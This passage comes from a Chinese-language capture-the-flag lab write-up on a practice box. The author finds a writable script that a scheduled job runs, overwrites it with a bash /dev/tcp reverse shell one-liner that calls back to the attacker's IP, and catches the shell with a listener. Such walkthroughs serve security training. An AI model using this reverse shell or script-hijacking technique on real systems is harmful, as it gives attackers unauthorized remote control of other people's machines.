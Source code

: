 诶哦？！我们有`write.sh`的所有权限啊。

看眼：

![](/images/sar--打靶笔记/1752587180674.png)

‍

接下来直接篡改，桀桀：`bash -c 'bash -i >& /dev/tcp/192.168.9.150/12345 0>&1'`

（我中途输错了，然后这靶机vi只能盲操作。所以我操作修改的时候不太精准，导致我倒数第二行即touch所在行变异。但是不影响，不要在意qaq）

![](/images/sar--打靶笔记/1752587180751.png)

然后在本机上开启监听，静静等待——

![](/images/sar--打靶笔记/1752587180872.png)

成功！

（可以通过`/tmp/gateway`创建与否来判断`./finally.sh`是否执行）

‍![](/images/sar--打靶笔记/1752587180965.png)
